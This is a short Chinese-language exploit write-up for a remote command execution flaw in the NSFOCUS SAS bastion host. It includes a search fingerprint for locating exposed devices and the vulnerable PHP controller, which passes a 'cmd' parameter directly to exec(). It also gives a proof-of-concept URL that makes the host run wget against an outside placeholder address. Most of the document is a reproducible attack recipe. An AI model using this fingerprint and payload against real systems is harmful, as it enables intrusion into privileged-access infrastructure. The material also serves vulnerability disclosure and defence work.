 # 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

漏洞存在于文件 ExecController.php 文件中

![image-20230828162917436](images/image-20230828162917436.png)

```
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```

![image-20230828162933312](images/image-20230828162933312.png)

![image-20230828162948491](images/image-20230828162948491.png)